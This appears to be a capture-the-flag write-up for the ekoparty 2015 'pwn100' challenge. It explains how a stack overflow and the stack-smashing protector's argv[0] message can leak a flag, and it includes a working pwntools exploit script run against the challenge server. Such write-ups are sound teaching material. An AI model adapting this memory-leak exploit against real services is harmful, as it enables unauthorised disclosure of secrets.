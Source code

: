 [](ctf=ekoparty-pre-ctf-2015)
[](type=pwn)
[](tags=buffer-overflow)

Again we are given a [zip](../pwn100.zip)
Extracting it gives us [xpl](../xpl) executable.

```bash
$ file xpl 
xpl: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=1856a84cc2663caa91e1511a2f0691652201fb95, not stripped

./xpl
Interesting data loaded at 0x7fff3a9971a0
Your username? aa
```
Doing a checksec shows us
```bash
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
Strange! NX enabled, we can't execute a shell code. Lets debug the binary.
We create a fake flag.txt and run it. 

Interesting data loaded at 0x7fff3a9971a0
When we inspect the address we see that it contains the contents of flag.txt i.e our fake flag.

Also when we give a long string as username, it crashes.
```bash
$ ./xpl
Interesting data loaded at 0x7fffab63c4c0
Your username? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*** stack smashing detected ***: ./xpl terminated
Aborted
```
[This](http://seclists.org/bugtraq/2010/Apr/243) bugtraq post discusses a method to turn fortify into an attacker aid and use it to leak strings into the error output it prints. If we can manage to overwrite the argv[0] pointer we can leak any string for which we know the address.

Perfect! we know the address of our flag and now our payload should be somewhat of the form 'A'*n+address(flag) and it would spew out our flag.
Quick fuzzing with [fuzz.py](../fuzz.py)
```bash
$ python fuzz.py > fuzz.txt
$ cat fuzz.txt | grep `cat flag.txt`
376 Your username? *** stack smashing detected ***: AAAA
```
n=376
Now for the final exploit, little changes in [fuzz.py](../fuzz.py)
```python
from pwn import *
from time import sleep
for i in range(376,377):
	#sh=process('./xpl')
	sh=remote('challs.ctf.site',20001)
	a=sh.recvline()
	sh.send('A'*i+p64(int(a.split()[4],16)))
	print i,a
	try:
		print sh.recvline()
	except:
		print i
	sleep(0.1)
```
gives
> 376  Interesting data loaded at 0x7fffffffe540
Your username? *** stack smashing detected ***: EKO{pwning_stack_protector}


Flag
>EKO{pwning_stack_protector}
